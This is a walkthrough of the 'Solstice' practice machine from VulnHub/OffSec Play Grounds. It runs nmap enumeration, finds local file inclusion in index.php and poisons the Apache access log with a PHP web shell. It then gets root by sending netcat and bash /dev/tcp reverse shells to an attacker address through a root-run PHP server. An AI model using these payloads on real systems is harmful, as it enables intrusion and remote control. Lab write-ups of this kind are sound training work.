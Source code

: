 # Solstice

| Name        | Solstice                      |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.203.72
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.203.72
nmap -Pn 192.168.203.72 -sC -sV
nmap -Pn 192.168.203.72 -p- --min-rate=1000

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
2121/tcp open  ccproxy-ftp
3128/tcp open  squid-http

8593/tcp  open  unknown
54787/tcp open  unknown
62524/tcp open  unknown

nmap -Pn 192.168.203.72 -p8593,54787,62524 -sV -sC
```

### FTP
We tried to connect to the FTP service in port 21 but anonymous authentication was not permitted. Then we tried port 2121 and we could connect as anonymous.
```shell
ftp 192.168.203.72 2121

cd pub
```
- Only one directory was found with cero information
### SMTP
We connected to the mail service too but again we didn't find relevant information.
```shell
telnet 192.168.203.72 25
```

### Web Enumeration
We started enumerating the services but we could not find anything relevant, then we are going to continue enumerating the web servers we have access to:
```shell
http://192.168.203.72/
http://192.168.203.72:8593/
http://192.168.203.72:54787
```
- One found with a basic nmap scan and two with a scan of all ports

In the first and third ones we found a just a blank page, but in the second one we found a simple web page with two hyperlinks:
![01-Solstice](00-Assets/01-Solstice.png)

When we click the "Book List" link a GET query is made:
```shell
http://192.168.203.72:8593/index.php?book=list
```
- Then we can try something like LFI or maybe SQLi. 

Let's try first LFI:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../etc/passwd
```
![01-Solstice-1](00-Assets/01-Solstice-1.png)
- Look at that, we can read files from the server

From our initial enumeration we know this is a Apache web server and in this moment we have LFI, then if we could have access to the server log files we could try a Log Poisoning attack.
## Foothold
### Log Poisoning 
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log
```

Now we can try the log poison with a web shell in the User-Agent header.
```shell
curl -s "http://192.168.203.72" -A "<?php system(\$_GET['cmd']); ?>"
```
![01-Solstice-2](00-Assets/01-Solstice-2.png)
- Look how in the red line the space for the User-Agent header is blank (last camp), then our poisoning worked
#### Web Shell
We just need to execute commands in the uploaded web shell:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=id
```
![01-Solstice-3](00-Assets/01-Solstice-3.png)
- We are in!!!

### Reverse Shell
#### Listener
```shell
nc -lnvp 4444
```
#### Execute Reverse Shell
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=nc+192.168.45.152+4444+-e+/bin/bash
```

![01-Solstice-4](00-Assets/01-Solstice-4.png)
#### Improving Pseudo Console
```shell
script /dev/null -c bash
ctrl +z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Privilege Escalation
We can start with our basic techniques for privilege escalation:
```shell
sudo -l
find / -user root -perm /4000 2>/dev/null

/var/tmp/sv
```
- Look at that, looking for SUID we found a directory that looks like have SUID rights?, that's weird, we don't know how to escalate privileges with just a directory, let's see if there are something there

```shell
ls /var/tmp/sv

index.php
```
![01-Solstice-5](00-Assets/01-Solstice-5.png)
- And there is only one file

Let's stop here an run a tool:
### Linpeas
We need to transfer the binary to the victim machine, we can do this we a python http server.
```shell
chmod +x ./linpeas.sh

./linpeas.sh
```

We start reading the output of this tool and we find something weird in the running processes section:
![01-Solstice-6](00-Assets/01-Solstice-6.png)
- We have a process which owner is `root` running a php web server (`php -S 127.0.0.1:57`) in the folder with SUID rights and the `index.php` file


**The point here is that the user running the web server is `root`. For example we obtained in [Foothold](#Foothold) a reverse shell with the `www-data` user because he was the owner of the process running the web server, then if we edit or create a `php` file with a reverse shell in this web server and visit it we will obtain a connection to a listener.**

### Root Reverse Shell
We can edit the existing `php` file with a file editor like `vim, nano` or we can use the `echo` command to replace the content directly:
```shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.152/5555 0>&1'");?>
<?php system('nc 192.168.45.152 5555 -e /bin/bash')?>

echo "<?php system('nc 192.168.45.152 55555 -e /bin/bash')?>" > index.php
```
#### Listener
```shell
nc -lnvp 5555
```
#### Executing Reverse Shell
We can't visit the web server because we don't have a GUI to open a web navigator, but we can use the following tool:
```shell
curl 127.0.0.1:57
```
- This will made a request directly to `/index.php` and we will obtain our reverse shell

- If we wanted to visit the web page in a web navigator we could have made a tunnel with port forwarding and then visit the URL of the server in our forwarded port:
```shel
http://127.0.0.1:6666
```



